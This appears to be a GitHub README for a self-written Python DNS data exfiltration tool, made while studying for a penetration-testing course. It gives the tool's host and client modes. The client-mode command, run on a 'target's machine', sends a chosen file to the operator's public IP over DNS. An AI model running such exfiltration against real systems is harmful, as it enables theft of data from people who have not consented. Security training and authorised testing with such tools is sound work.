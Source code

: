 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, about the DNS protocol and how data exfiltration works. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:

`python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "my_secret_password_used_for_intransit_data_encryption"`

### Client
On your target machine, copy-paste / install the script and run it. For example:

`python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "the_same_secret_password_as_set_on_the_host_script" -file "/path/to/the/file/you/want/to/exfil"`

### More help
`python3 dns-exfil.py -h`

